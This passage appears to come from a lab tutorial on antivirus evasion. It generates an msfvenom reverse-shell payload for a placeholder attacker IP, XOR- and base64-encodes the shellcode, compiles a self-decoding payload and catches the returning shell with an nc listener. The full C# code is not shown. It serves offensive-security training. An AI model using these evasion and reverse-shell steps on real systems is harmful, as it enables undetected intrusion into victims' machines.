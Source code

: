 Let's start by generating a reverse shell with msfvenom in CSharp format:

Generate a CSharp shellcode Format

```shell-session
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

The Encoder

Before building our actual payload, we will create a program that will take the shellcode generated by msfvenom and encode it in any way we like. In this case, we will be XORing the payload with a custom key first and then encoding it using base64. Here's the complete code for the encoder (you can also find this code in your Windows machine at C:\Tools\CS Files\Encryptor.cs):

_Full Payload Code (Click to read)_  

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the `buf` variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:

Compiling and running our custom CSharp encoder

```shell-session
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at `C:\Tools\CS Files\EncStageless.cs`):  

_Full Payload Code (Click to read)_  

Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let's compile our payload with the following command on the Windows machine:

Compile Our Encrypted Payload

```shell-session
C:\> csc.exe EncStageless.cs
```

Before running our payload, let's set up an `nc` listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:

Set Up nc Listener

```shell-session
user@AttackBox$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```
